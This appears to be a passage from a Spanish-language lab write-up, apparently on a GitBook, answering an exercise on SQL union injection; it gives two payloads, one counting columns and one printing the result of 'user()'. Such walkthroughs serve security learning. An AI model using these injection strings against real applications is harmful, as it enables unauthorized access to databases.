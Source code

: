 <figure><img src="../.gitbook/assets/image (1699).png" alt=""><figcaption></figcaption></figure>

### Union Injection

#### Preguntas

**Use a Union injection to get the result of 'user()'**

Primero vemos cuántas columnas son.

```
' UNION select 1,2,3,4-- -
```

Ahora hacemos que nos imprima en una columna el resultado.

```
' UNION SELECT 1, user(), 3, 4-- -
```

<figure><img src="../.gitbook/assets/image (1700).png" alt=""><figcaption></figcaption></figure>
